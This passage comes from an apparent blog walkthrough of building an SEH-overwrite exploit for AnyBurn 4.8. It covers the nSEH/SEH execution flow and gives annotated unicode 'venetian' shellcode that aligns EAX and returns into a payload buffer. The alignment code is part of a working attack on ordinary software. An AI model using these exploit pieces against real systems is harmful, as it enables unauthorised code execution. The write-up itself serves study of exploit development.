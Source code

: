 Amazingly, both nSEH and SEH values resulted in a NOP-like flow of execution which pretty much gave me the following execution during the overflow:

* SEH jumps back 4 bytes to our nSEH value
* nSEH holds instructions that don't really do anything (as far as I can see anyway)
* nSEH flows back to the SEH value which continues our flow to the address directly after SEH

Our nSEH value can be seen in the previous SEH screenshot above. However, we can see it in action in the next picture. I have attempted to annotate the flow as seen in the debugger:

![Execution Flow]({{ site.url }}/assets/images/anyburn_4_8/2_anyburn_nseh_seh_exec.png)

## Stage 2: Grooming EAX to point at a controllable 'cave'
So now we essentially have the following payload, right?

* junk up to our nSEH (4 bytes before SEH)
* execution friendly value for nSEH
* POP POP RET for SEH
* execution flow that hits SEH, jumps back to nSEH, flows back through SEH and lands at the following address (sweet)

In some cases, you should find yourself in a nice big chunk of memory that lets you just inject your shellcode there and happy days. This was not one of those cases. I ended up needing to craft some shellcode to allow me to return into EAX which pointed at my shellcode. That might not be 100% accurate, but here is the shellcode I had directly after my SEH overwrite address:

```
eax_align =  "\x47"		    # venetian pad/align
eax_align += "\x56" 	    # push esi
eax_align += "\x47" 		# venetian pad/align
eax_align += "\x58"		    # pop eax
eax_align += "\x47" 		# venetian pad/align 
eax_align += "\x05\x1c\x11" # add eax,0x11001c00
eax_align += "\x47" 		# venetian pad/align
eax_align += "\x2d\x16\x11" # sub eax,0x11001600 (net diff +600h)
eax_align += "\x47" 		# venetian pad/align
eax_align += "\x50" 		# push eax -> eax should now point to esi + 600bytes (should be in the junk buffer)
eax_align += "\x47"		    # pad to align the following ret
eax_align += "\xc3";		# ret into eax? I didn't know this was a thing until this. Likely still not a thing but that's what I was seeing.
```

Essentially what I did, was highlighted a section of my payload junk that I wanted to return to. This junk would now hold valid shellcode, which would ultimately be my final stage of the payload. I found an address in memory (which fell in my payload junk ofcourse), which was close enough to a value already in a register. Using this value as part of a set of subtraction instructions I was able to align EAX to point at my target address, which is where my shellcode lay. Let's take the logic bits of the shellcode above to see what happened without the aligning NOPs (these were used to account for alignment, stopping instructions from warping/.breaking and would allow me to work around unicode encoding). 

```
eax_align += "\x56" 	    # push esi
eax_align += "\x58"		    # pop eax
eax_align += "\x05\x1c\x11" # add eax,0x11001c00
eax_align += "\x2d\x16\x11" # sub eax,0x11001600 (net diff +600h)
eax_align += "\x50" 		# push eax -> eax should now point to esi + 600bytes (should be in the junk buffer)
eax_align += "\xc3";
```
